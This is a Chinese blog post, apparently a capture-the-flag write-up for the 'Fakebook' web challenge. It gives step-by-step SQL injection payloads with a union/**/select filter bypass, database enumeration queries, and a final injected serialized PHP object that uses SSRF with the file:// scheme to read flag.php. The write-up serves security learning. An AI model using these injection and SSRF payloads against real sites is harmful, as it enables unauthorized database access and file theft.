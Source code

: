 ```yaml
---
title: '[网鼎杯 2018]Fakebook'
author: Troy3e
avatar: https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/avatar.jpg
authorLink: 
authorAbout: 一个好奇的人
authorDesc: 一个好奇的人
categories: 技术
comments: true
date: 2020-07-04 21:34:29
tags: ssrf漏洞
keywords:
description:
photos: https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/thumb-1920-196720.jpg
---
```

万万没想到robots.txt里面居然有东西，一开始一直以为漏洞在注册和登录之中，也没有用dir去扫。。。
源码：
![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20200704232149.png)
在注册的帐号的主界面存在注入点：
![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20200704231304.png)
![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20200704231339.png)
字段数为4：no=1 order by 4--+
union select被过滤了，新学习了一种绕过的方法：union/**/select

注入点为2：no=1 union/**/select 1,2,3,4--+

数据库为fakebook：no=0 union/**/select 1,database(),3,4--+

表为users：no=0 union/**/select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema='fakebook'--+

列为no,username,passwd,data：no=0%20union/**/select%201,group_concat(column_name),3,4 from information_schema.columns where table_schema='fakebook' and table_name='users'--+

查出数据：no=0%20union/**/select%201,group_concat(no,'-',username,'-',passwd,'-',data),3,4 from fakebook.users --+
![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20200704231929.png)

很明显data是一串序列化的代码，还原后得到：
![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/2016410-20200507215325049-962043420.png)
发现：这个正是源码中的UserInfo类
接下来再看之前找到的源码，这里有一个新的知识点：ssrf漏洞。
SSRF,也就是Server Side RequestForgery—服务器端请求伪造。从字面上来看，与CSRF不同的是，它是服务器端发出的请求伪造而非从用户一端提交。别误会，作为受信任用户，服务器当然不可能做出损害用户信息的事。它是一种由攻击者构造形成，由服务端发起请求的一个安全漏洞。因为它是由服务端发起的，所以它能够请求到与它相连但与外网隔离的内部系统。
一般由curl的滥用引起。
更多关于ssrf漏洞的介绍详见：https://www.jianshu.com/p/d1d1c40f6d4c
说一下我自己的理解：
首先这个ssrf漏洞具体是如何判断出来的我暂且不去搞的非常明白，目前先记住看到curl就要联想到ssrf就行。在判断这里存在了ssrf漏洞之后，就要想办法去利用它进行flag的读取。
回到一开始的界面：
![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20200704231304.png)
可以看到name、age、blog等信息，此时再看data那里反序列化后的结果，所有的信息都被藏在了data列里，猜测服务器是通过查询data字段,得到其中的序列化信息来渲染整个页面,从而恰好得到页面中的username,age,blog值。在猜想到这个逻辑之后，我们就可以通过修改查询的序列化对象的值来构造ssrf请求,从而读取到flag文件。
利用flie协议读取文件：
![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20200705000447.png)
最终payload：http://9ccd5c5c-9dea-4d09-87ab-06ac06819869.node3.buuoj.cn/view.php?no=0%20union/**/select%201,2,3,%27O:8:"UserInfo":3:{s:4:"name";s:1:"1";s:3:"age";i:0;s:4:"blog";s:29:"file:///var/www/html/flag.php";}%27%20from%20users%20--+

查看页面源代码，访问界面即可

最后：这道题是一道综合性很强的题，用到了ssrf、反序列化、sql注入，难度还是比较大的。但是写的很乱，不知道能不能让读者理解我的意思。


参考链接：
1、https://blog.csdn.net/qq_44657899/article/details/104884553
1、https://www.cnblogs.com/hello-there/p/12846239.html

